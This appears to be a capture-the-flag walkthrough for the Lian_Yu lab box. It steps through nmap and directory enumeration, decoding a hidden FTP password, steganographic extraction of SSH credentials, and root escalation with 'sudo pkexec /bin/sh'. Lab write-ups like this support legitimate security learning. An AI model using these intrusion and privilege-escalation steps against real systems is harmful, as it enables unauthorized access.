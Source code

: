 
- **Difficulty: Easy**

---

## Reconnaissance

**`nmap` scan**:

```bash
nmap -sV <IP_ADDRESS>
```

Results:

```bash
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Enumeration

```bash
gobuster dir -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
```

Results:

```bash
http://<IP_ADDRESS>/island
```

- `http://<IP_ADDRESS>/island` :

```text
 Ohhh Noo, Don't Talk...............

I wasn't Expecting You at this Moment. I will meet you there

You should find a way to Lian_Yu as we are planed. The Code Word is:
vigilante
```

- Not much here, lets try enumerating `/island`

```bash
feroxbuster -u http://10.10.57.185/island -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Result:

```bash
http://<IP_ADDRESS>/island/2100
```

- From the webpage source:

```html
<!-- you can avail your .ticket here but how?   -->
```

- Lets try enumerating with `-x ticket` this time

```bash
feroxbuster -u http://10.10.57.185/island -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket
```

Result:

```bash
200      GET        6l       11w       71c http://10.10.57.185/island/2100/green_arrow.ticket
```

- Checking out the webpage

```bash
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
```

- Putting this string into `cyberchef` and use `from Base58` we get:

```bash
!#th3h00d
```

- Looks to be a pass, we can try using this and the user we found earlier (`vigilante`) to log into `ftp`:

- Nice that works:

```ftp
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
```

- Lets copy all these to our local machine:

```ftp
ftp> mget *
```

### Steganography

- One of the `.png` files is corrupted. We repaired it using `hexeditor` by fixing the PNG header (89 50 4E 47 0D 0A 1A 0A).

- The correct header hex for `.PNG` is 89 50 4E 47 0D 0A 1A 0A

- Within `hexeditor` replace the first set of numbers with the correct heading

- This allows us to open the corrupted `.png` and get the next clue

```bash
eog Leave_me_alone.png

password
```

- Next lets try `stegseek` on `aa.jpg`

```bash
stegseek aa.jpg

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".
```

- This gives us the same result

- But we do get a new file `aa.jpg.out`

```bash
file aa.jpg.out                              
aa.jpg.out: Zip archive data, made by v2.0 UNIX, extract using at least v2.0, last modified Apr 28 2020 02:06:00, uncompressed size 333, method=deflate
```

- We can `unzip` this

```bash
Archive:  aa.jpg.out
  inflating: passwd.txt              
  inflating: shado  
```

- Lets `cat` the `shado` file:

```bash
M3tahuman
```

- Looks like a pass, lets try plugging this into `ssh`

--- 
## Exploit

- Since this CTF has a lot to do with the show "Green Arrow" and a lot of the images feature the character "slade" lets try that for our `ssh` user and the pass we just found

```bash

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #
```

- We are In!

- `cat` the `user.txt` file

---

## Privilege Escalation

- Running our normal privesc commands:

```bash
slade@LianYu:~$ clear
slade@LianYu:~$ whoami
slade
slade@LianYu:~$ id
uid=1000(slade) gid=1000(slade) groups=1000(slade),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

- User `slade` may run `/usr/bin/pkexec` as `root` 

### GTFObins

```bash
sudo pkexec /bin/sh
```

- Easy! We are now root!

- Last, we can `cat` our `root.txt`

---

[[CTF Notes]]

